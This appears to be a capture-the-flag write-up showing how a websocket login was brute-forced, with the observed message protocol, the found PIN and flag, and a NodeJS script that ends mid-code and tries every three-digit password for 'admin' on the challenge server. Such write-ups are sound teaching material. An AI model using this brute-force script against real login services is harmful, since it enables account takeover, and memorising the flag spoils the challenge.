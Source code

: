 <br>

Under the Websockets history tab in Burp Suite, we can see that a single login request takes the following form:
1. Server sends `begin`
2. Client sends `begin`
3. Client sends `user <myuser>`
4. Client sends `pass <mypass>`
5. Server sends its response (`badpass` if the password is wrong, `flask-session=SESSIONID` if the password is correct).

The idea is to emulate this traffic programatically, and repeat it for all different possible passwords. I used NodeJS for this, because the way to use websockets here is well-documented (https://www.npmjs.com/package/websocket), and parallelizing requests is fairly easy to do in JS. Eventually, we find the right password to use (907), and after logging in as `admin`, we see our flag:

# Flag
`utflag{w3bsock3ts}`

# Files
## Password bruteforcer
```js
const WebSocket = require('websocket').w3cwebsocket;

async function main() {
    for (let i = 0; i < 10; i++) {
        for (let j = 0; j < 10; j++) {
            for (let k = 0; k < 10; k++) {
                let pass = `${i}${j}${k}`
                connectWithPassword(pass)
            }
        }
    }
}

async function connectWithPassword(pass) {
    const url = "ws://web1.utctf.live:8651/internal/ws"
    const client = new WebSocket(url);
    client.onerror = function () {
        console.log('Connection Error');
    };

    client.onmessage = function (e) {
        if (typeof e.data === 'string') {
            console.log(e.data);
            if (e.data == "begin") {
                let user = "admin"
                client.send("begin");
                client.send("user " + user);
                client.send("pass " + pass);
            }
            else if (e.data === "baduser") {
                // skip
            }
            else if (e.data === "error") {
                // skip
            }
            else if (e.data === "badpass") {
                // skip
            }
            else {
```